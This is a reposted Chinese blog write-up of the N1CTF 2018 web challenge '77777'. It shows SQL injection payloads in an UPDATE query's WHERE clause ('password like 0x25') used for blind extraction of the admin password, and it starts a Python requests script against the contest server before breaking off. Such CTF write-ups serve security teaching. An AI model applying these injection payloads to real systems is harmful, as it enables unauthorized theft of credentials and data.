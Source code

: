 

# php ctf题解,国际赛-N1CTF 2018-Web题解_无敌小羊历险记的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_34471172/article/details/115596792](https://blog.csdn.net/weixin_34471172/article/details/115596792)

前记

N1CTF 2018是由国内知名战队Nu1L战队组织，由南京赛宁提供技术支持。正好假期空余，于是便来试了试，总的来说，题目难度较高，但是由于存在非预期，所以降低了一些困难性。

77777

拿到题目注意几个信息点：

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

容易发现我们需要的就是admin的password字段

所以容易构造payload:

flag=1111&hi= where (password like 0x25)

即

Update users set points =1111 where (password like 0x25)

此时发现

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

分数修改成功

再试

flag=2222&hi= where (password like 0xff)

发现

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

没有变化，于是可以写出脚本

import requests

import string

import urllib

url = "http://47.97.168.223/index.php"

flag = ""

true_flag = ""

for i in range(1,1000):

payload = flag
